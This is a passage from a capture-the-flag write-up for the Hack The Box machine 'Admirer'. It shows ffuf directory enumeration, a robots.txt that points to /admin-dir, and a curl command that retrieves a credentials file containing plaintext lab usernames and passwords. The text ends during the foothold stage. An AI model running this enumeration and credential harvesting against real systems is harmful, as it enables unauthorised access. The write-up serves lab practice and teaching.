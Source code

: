 
# Recon

## TCP/80 (HTTP)
- FFUF
	```bash
	images                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 36ms]
	index.php               [Status: 200, Size: 6051, Words: 385, Lines: 154, Duration: 37ms]
	robots.txt              [Status: 200, Size: 138, Words: 21, Lines: 5, Duration: 35ms]
	```
- `robots.txt`
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187/loot]
	└─# curl http://admirer.htb/robots.txt
	User-agent: *
	
	# This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
	Disallow: /admin-dir
	```






# Initial Foothold

## TCP/80 (HTTP) - /admin-dir, creds found
1. Directory enumerate `/admin-dir/FUZZ`
	```
	┌──(root💀kali)-[~/htb/admirer]
	└─# ffuf -u http://admirer.htb/admin-dir/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e '.txt,.html'
	
	 :: Method           : GET
	 :: URL              : http://admirer.htb/admin-dir/FUZZ
	 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	 :: Extensions       : .txt .html
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
	________________________________________________
	
	contacts.txt            [Status: 200, Size: 350, Words: 19, Lines: 30, Duration: 40ms]
	                        [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 36ms]
	.html                   [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 37ms]
	credentials.txt         [Status: 200, Size: 136, Words: 5, Lines: 12, Duration: 37ms]
	:: Progress: [661638/661638] :: Job [1/1] :: 1101 req/sec :: Duration: [0:10:09] :: Erro
	```
	- `credentials.txt`
2. Obtain credentials 
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187/loot]
	└─# curl -s http://admirer.htb/admin-dir/credentials.txt |  grep -vP "\[\S+" | sed -z 's/\n\n/\n/g' | tee creds.txt
	w.cooper@admirer.htb
	fgJr6q#S\W:$P
	ftpuser
	%n?4Wz}R$tTF7